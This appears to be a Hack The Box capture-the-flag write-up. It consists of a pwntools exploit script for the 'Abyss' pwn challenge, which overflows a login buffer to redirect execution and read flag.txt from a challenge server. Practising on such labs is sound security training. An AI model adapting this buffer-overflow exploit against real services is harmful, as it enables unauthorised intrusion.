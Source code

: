 # HACK-THE-BOX write up for some pwn challenges

## CTF TRY OUT
### Abyss
    #!/usr/bin/python3

    from pwn import *
    import argparse
    from time import *


    parser = argparse.ArgumentParser(description='Exploit script')
    parser.add_argument('remote', nargs='?', default=None, help='Run the exploit on a remote server')
    args = parser.parse_args()

    exe = ELF('./abyss_patched', checksec=False)
    #libc = ELF('./libc.so.6', checksec=False)
    #ld = ELF('./ld-linux-x86-64.so.2', checksec=False)
    #libc = exe.libc

    context.binary = exe
    context.terminal = ['wt.exe','-d', '.', 'wsl.exe', '-d', 'Ubuntu-22.04']

    info = lambda msg: log.info(msg)
    sla = lambda msg, data: p.sendlineafter(msg, data)
    sa = lambda msg, data: p.sendafter(msg, data)
    sl = lambda data: p.sendline(data)
    s = lambda data: p.send(data)
    sln = lambda msg, num: sla(msg, str(num).encode())
    sn = lambda msg, num: sa(msg, str(num).encode())

    def GDB():
        if args.remote is None:
            gdb.attach(p, gdbscript='''
            b* 0x0000000000401350
            b* 0x00000000004013D5
            b* 0x00000000004014A7

            c
            ''')
            input()

    if args.remote:
        p = remote('94.237.55.96',43841)  
    else:
        p = process(exe.path)  

    #GDB()



    s(b'\0'*4) #cmd_login
    sleep(1)
    payload = b'USER ' + b'a'*17
    payload += b'\x1c' + b'b'*11
    payload += p64(exe.sym.cmd_read + 66) 
    s(payload)
    sleep(3)
    payload = b"PASS " + b"c"*507
    s(payload)
    sleep(1)
    payload = b"./flag.txt\0"
    s(payload)
